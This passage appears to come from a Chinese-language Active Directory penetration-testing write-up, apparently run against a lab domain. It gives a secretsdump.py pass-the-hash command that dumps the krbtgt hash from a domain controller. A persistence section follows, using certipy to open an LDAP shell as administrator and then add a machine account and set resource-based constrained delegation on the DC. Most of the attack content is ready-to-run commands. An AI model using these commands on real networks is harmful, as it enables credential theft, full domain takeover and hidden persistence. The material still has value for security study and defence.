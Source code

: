 [![](assets/1708508972-508cf7e5de9589dc1f890d28d1d17af0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170949-ccbb245a-cfcf-1.png)

secrectdump

```bash
secretsdump.py penson.org/ad\$@192.168.142.20 -just-dc-user PENSON/krbtgt -hashes aad3b435b51404eeaad3b435b51404ee:c0032e2567e4f12b7f8ba3e436db4177
```

[![](assets/1708508972-182183da5b6e1f1036fce192b1a59f6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170959-d2e78d96-cfcf-1.png)

# 权限维持

## RBCD（基于资源约束委派）

可以用 bloodyAD，也可以用新版的 certipy 直接添加 rbcd 进行权限维持  
进入 ldap-shell

```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.142.20 -ldap-shell
```

```bash
add_computer penson$ penson123 #添加机器账户
set_rbcd AD$ penson$ #添加到 AD 的基于资源约束委派
```

[![](assets/1708508972-df149a1c837c3962b4ea7b0345dea5ff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220171030-e524ac6e-cfcf-1.png)
